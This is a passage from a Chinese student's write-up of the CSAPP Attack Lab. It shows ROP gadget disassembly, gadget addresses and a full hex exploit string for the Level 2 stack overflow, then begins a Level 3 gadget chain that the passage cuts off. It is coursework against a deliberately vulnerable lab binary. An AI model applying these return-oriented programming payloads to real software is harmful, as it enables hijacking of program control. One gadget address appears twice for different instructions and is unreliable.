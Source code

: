 > 注意这里是在 farm.c 中的地址，要想使用，待会还需要获得这段代码在 `rtarget` 内的值。

第二行的指令为`48 89 C7`，可以用

```assembly
0000000000000014 <addval_273>:
  14:	f3 0f 1e fa          	endbr64 
  18:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  1e:	c3   
```

再将`rtarget`反汇编，我们所需要的两段`gadget`的地址分别是：`0x4019b9`、`0x4019a2`。

![image-20220608230128049](./CSAPP  Lab Report2.assets/image-20220608230128049-16547004886541.png)

![image-20220608230202849](./CSAPP  Lab Report2.assets/image-20220608230202849.png)

所以我们构造的字符串可以是：

```
20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 B9 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

保存为`level2_4.txt`，做测试。

![image-20220608231422239](./CSAPP  Lab Report2.assets/image-20220608231422239.png)

#### Level 3（Phase 5）

需要做的和 Phase 3 一样，只不过处理手段要按照**限制**来做。

在 Level 3 中，栈的位置是随机的，只能用`栈顶地址 + 偏移量`来找到字符串。

重复 Phase 3 的思路：首先：`movq	%rsp, %rax`，这个指令的指令字节为 `48 89 e0`，这一步的地址是`0x401a06`。

![image-20220608232117501](./CSAPP  Lab Report2.assets/image-20220608232117501.png)

然后：`movq	%rax, %rdi `，这个指令的指令字节为 `48 89 c7`，这一步的地址是`0x401a06`。

![image-20220608232242042](./CSAPP  Lab Report2.assets/image-20220608232242042.png)

> 其实这一步有更加现成的`gadget`，但是还是按照要求从farm里找。

然后：`popq	%rax`，这个指令的指令字节为`58`，这一步的地址是`0x4019cc`。

![image-20220608232447369](./CSAPP  Lab Report2.assets/image-20220608232447369.png)

然后：`movl	%eax, %edx`，这个指令的指令字节为`89 c2`，这一步的地址是`0x4019dd`。

![image-20220608232546481](./CSAPP  Lab Report2.assets/image-20220608232546481.png)

然后：`movl	%edx, %ecx`，这个指令的指令字节为`89 d1`，这一步的地址是`0x401a70`。

![image-20220608232731373](./CSAPP  Lab Report2.assets/image-20220608232731373.png)
